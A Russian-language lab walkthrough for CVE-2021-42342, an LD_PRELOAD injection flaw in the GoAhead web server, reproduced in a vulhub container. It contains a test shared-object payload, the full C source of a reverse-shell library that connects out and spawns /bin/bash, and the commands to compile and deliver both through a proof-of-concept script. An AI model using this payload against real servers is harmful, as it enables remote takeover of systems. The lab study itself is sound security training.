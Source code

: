 # CVE-2021-42342

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-42342](https://nvd.nist.gov/vuln/detail/CVE-2021-42342)
* [https://cve.report/CVE-2021-42342](https://cve.report/CVE-2021-42342)
* [https://www.opencve.io/cve/CVE-2021-42342](https://www.opencve.io/cve/CVE-2021-42342)

В GoAhead 4.x и 5.x до версии 5.1.5 была обнаружена проблема. В фильтре загрузки файлов переменные формы пользователя могут быть переданы CGI-скриптам без префикса CGI. Это позволяет передавать переменные окружения в уязвимые CGI-скрипты.

Злоумышленник может использовать эту возможность для загрузки полезной нагрузки в виде разделяемого объекта в многокомпонентной форме и перехватить переменную окружения LD\_PRELOAD для выполнения произвольного кода.

Эта уязвимость является обходом патча [CVE-2017-17562 ](../../containers/goahead/cve-2017-17562.md)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2021-42342

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница GoAhead 3.6.4

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

<pre><code><strong>gcc -shared -fPIC payload.c -o payload.so
</strong></code></pre>

Где payload.c - это файл с вышеупомянутым кодом

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Далее используйте [данный](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py) скрипт для реализации атаки

```
python poc.py http://target-ip:8080/cgi-bin/index /путь_до_файла/payload.so
```

В ответе мы можем видеть, что появился заголовок hello со значением World, что свидетельствует об успешном выполнении команды

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Для получения обратной оболочки скомпилируйте следующий код:

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

Где в переменную server\_ip впишите ip машины, на которую хотите получить оболочку

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC shell.c -o shell.so
```

Затем выполните команду&#x20;

```
python poc.py http://target-ip:8080/cgi-bin/index /путь/до/shell.so
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
